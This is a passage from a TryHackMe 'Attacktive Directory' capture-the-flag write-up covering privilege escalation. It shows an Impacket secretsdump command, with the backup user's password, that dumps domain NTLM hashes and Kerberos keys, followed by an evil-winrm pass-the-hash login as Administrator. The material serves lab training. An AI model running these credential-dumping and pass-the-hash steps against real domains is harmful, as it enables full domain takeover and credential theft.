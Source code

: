 <details><summary><b>Decoding the contents of the file, what is the full contents?</b></summary></details><br>


## 💀 Privilege Escalation

Moving on to privilege escalation. With the retrieved credentials of the user <code>backup</code>, we can try to use another **Impacket** tools called <code>secretsdump</code>, which allow us to **retrieve all the password hashes that the current user <code>backup</code> has to offer**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Attacktive Directory]
└─$ python3 /opt/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@<MACHINE-IP>
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
...
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
...
[*] Cleaning up... 
```

<details><summary><b>What method allowed us to dump NTDS.DIT?</b></summary></details><br>

<details><summary><b>What is the Administrators NTLM hash?</b></summary></details><br>

<details><summary><b>What method of attack could allow us to authenticate as the user without the password?</b></summary></details><br>

<details><summary><b>Using a tool called Evil-WinRM what option will allow us to use a hash?</b></summary></details><br>

```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Attacktive Directory]
└─$ evil-winrm -i <MACHINE-IP> -u 'Administrator' -H '0e0363213e37b94221497260b0bcb4fc'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```


## 🏳️ Flags

<details><summary><b>svc-admin</b></summary></details><br>

<details><summary><b>backup</b></summary></details><br>

<details><summary><b>Administrator</b></summary></details><br>